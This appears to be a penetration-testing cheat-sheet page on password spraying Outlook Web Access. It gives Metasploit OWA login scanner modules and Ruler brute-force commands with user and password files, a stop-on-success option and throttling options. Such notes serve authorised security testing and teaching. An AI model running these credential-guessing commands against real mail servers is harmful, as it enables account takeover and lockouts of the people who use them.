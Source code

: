 # Outlook Web Access (OWA)

### Password Spraying OWA

#### Metasploit

```bash
# OWA brute force utility
use auxiliary/scanner/http/owa_login

# OWA Exchange Web Services (EWS) login scanner
use auxiliary/scanner/http/owa_ews_login
```

#### Ruler

```bash
# Brute force credentials
./ruler --domain $domain brute --users $userfile --passwords $passwordfile

# Stop after first valid credentials found
./ruler --domain $domain brute --users $userfile --passwords $passwordfile --stop

# Brute force credentials with a delay
./ruler --domain $domain brute --users $userfile --passwords $passwordfile --delay 2 --attempts 2
```

### References

{% embed url="https://www.ired.team/offensive-security/initial-access/password-spraying-outlook-web-access-remote-shell" %}

{% embed url="https://hunter2.gitbook.io/darthsidious/initial-access/password-spraying" %}
